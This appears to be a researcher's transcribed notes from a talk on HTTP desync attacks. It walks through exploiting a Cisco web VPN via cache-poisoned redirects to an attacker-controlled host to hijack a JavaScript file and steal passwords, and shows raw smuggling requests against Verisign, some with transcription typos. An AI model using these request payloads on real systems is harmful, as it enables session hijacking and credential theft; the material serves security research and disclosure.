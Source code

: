 This technique seems to work on lots of web VPNs for some reason. I think it's 'cause they tend to code their own web service for security reasons which backfires. So here, we can trigger a desync, simply by doing a POST request to their homepage.  It couldn't be much easier to be honest. And with that, we can easily trigger a redirect to our website. And in theory, that redirect could let us redirect to JavaScript resource load and let us take full control over the page. But there's a bit of a problem because when a web browser renders a page, it loads all the resources at the same time. And that makes it really quite hard to successfully hijack the correct file. Fortunately, there was an easy solution on this target, because this redirect response is cacheable. So if we poison the connection with our redirect, and then  we tell the browser to navigate to the target JavaScript file, which is /win.js here, then they'll get that redirect back and they'll just get bounced back to our website by the redirect, but they'll also save the redirect in their cache.
So when they learn back on our website, we can send them onwards to the web VPN's login page. 
```REQUEST1
POST / HTTP/1.1
Host: redacted.com
Content-Length: 46

GET /+webvpn+/ HTTP/1.1
Host: psres.net
X: Y
```
```
HTTP/1.1 200 OK
```
```
HTTP/1.1 301 Moved Permanently
Location: https//psres.net/+webvpn+/index
```
```
=> https://redacted.com/+CSCOE+/logon.html
	<script src="https://redacted.com/+CSCOE+/win.js">
```
![[Pasted image 20240811000750.png]]

And when the log in page starts to get rendered, it's gonna try and load that JavaScript file and end up loading our poisoned version from the cache and importing our JavaScript and giving us the user's password. So i reported this to Cisco and they didn't say anything for a while.  And then they said... they're gonna deprecate this product. So they're not gonna fix the issue, but they are issuing a CVE for it. I hope you're not using it. 

### Verisign - fragmented chunk
On verisign.com. 
```
POST /%2f HTTP/1.1
Host: www.verisign.com
Content-Length: 81
```
~~~
HTTP/1.1 200 OK
~~~

![[Pasted image 20240811001200.png]]
You could trigger a desync using a URL encoded forward slash, Don't ask me how i found that. And unfortunately, that wasn't the only thing a bit unusual about their setup for reasons that i don't have time to explain in any detail. 
To get a working exploit, i had to use the head technique, but i had to do it with a head request that had a body and the body had to be chunked,
```
POST /%2f HTTP/1.1
Host: www.verisign.com
Content-Length: 81

HEAD / HTTP/1.1
Connection: keep-alive
Transfer-ENcodinf: chunked

```